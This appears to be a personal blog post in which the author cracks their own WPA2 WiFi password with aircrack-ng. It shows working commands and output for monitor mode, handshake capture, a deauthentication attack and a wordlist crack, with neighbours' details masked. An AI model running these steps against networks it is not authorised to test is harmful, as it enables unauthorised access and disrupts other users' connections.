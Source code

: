```yaml
---
permalink: /misc/hackingmywifi
title: Hacking my own WiFi password
---
```


<br>

The aircrack-ng packages gives us everything we need:

```
[connor@fedora]$ sudo dnf install aircrack-ng
```

Then run airmon-ng with no arguments to see if your wifi card supports monitor mode.

```
[connor@fedora]$ sudo airmon-ng  
  
PHY     Interface       Driver          Chipset  
   
phy0    wlp3s0          iwlwifi         Intel Corporation Centrino Advanced-N 6205 [Taylor Peak] (rev 34)
```

Luckily mine does, if nothing shows up then you may need a USB wifi adapter. 
[David Bombal has a good video on various ones](https://www.youtube.com/watch?v=5MOsY3VNLK8).

Moving on...

```
[connor@fedora]$ sudo airmon-ng check kill  
  
Killing these processes:  
  
   PID Name  
  1135 wpa_supplicant  
  
[connor@fedora]$ sudo airmon-ng start wlp3s0  
  
  
PHY     Interface       Driver          Chipset  
   
phy0    wlp3s0          iwlwifi         Intel Corporation Centrino Advanced-N 6205 [Taylor Peak] (rev 34)  
               (mac80211 monitor mode vif enabled for [phy0]wlp3s0 on [phy0]wlp3s0mon)  
               (mac80211 station mode vif disabled for [phy0]wlp3s0)  
  
```

Then you can start listening (I've hidden my neighbours' data and changed my own):

```
[connor@fedora]$ sudo airodump-ng wlp3s0mon


BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                
                                                                                                                                                                                                                                       
XX:XX:XX:XX:XX:XX  -86       17        1    0   1  130   WPA2 CCMP   PSK  XXXXXXXX                                                                       
XX:XX:XX:XX:XX:XX  -82      104       23    0   1  195   WPA2 CCMP   PSK  XXXXXXXX                                                                     
XX:XX:XX:XX:XX:XX  -69      452      170    0   2  130   WPA2 CCMP   PSK  XXXXXXXX                                                                    
AB:CD:12:34:EF:56  -35      605      133    1  11  195   WPA2 CCMP   PSK  Optus_BF826B
```

Then listening to mine specifically and waiting for a handshake:

```
sudo airodump-ng -c 11 --bssid AB:CD:12:34:EF:56 -w ./mywifi wlp3s0mon
```

Then a deauthentication attack (I sent 10 deauthentication packets):

```
[connor@fedora]$ sudo aireplay-ng -0 10 -a AB:CD:12:34:EF:56 wlp3s0mon     
10:24:10  Waiting for beacon frame (BSSID: AB:CD:12:34:EF:56) on channel 11  
NB: this attack is more effective when targeting  
a connected wireless client (-c <client's mac>).  
10:24:10  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]  
10:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]  
10:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]  
10:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]   
10:24:12  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]  
10:24:12  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]  
10:24:13  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]  
10:24:13  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]  
10:24:14  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]    
10:24:14  Sending DeAuth (code 7) to broadcast -- BSSID: [AB:CD:12:34:EF:56]  
```

Then the listener captured a WPA handshake!

It created a file mywifi-01.cap which we can try to crack.

I made a small wordlist with the real password to test:

```
[connor@fedora]$ aircrack-ng mywifi-01.cap -w wordlist



                              Aircrack-ng 1.7    
  
     [00:00:00] 8/18 keys tested (311.24 k/s)    
  
     Time left: 0 seconds                                      44.44%  
  
                        KEY FOUND! [ <REDACTED> ]  
  
  
     Master Key     : xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx    
                      xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx      
  
     Transient Key  : xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx      
                      xx xx xx xx xx xx xx 00 00 00 00 00 00 00 00 00    
                      00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    
                      00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    
  
     EAPOL HMAC     : xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx  
```

aircrack-ng succeeded in cracking it. This shows the importance of having a strong wifi password!


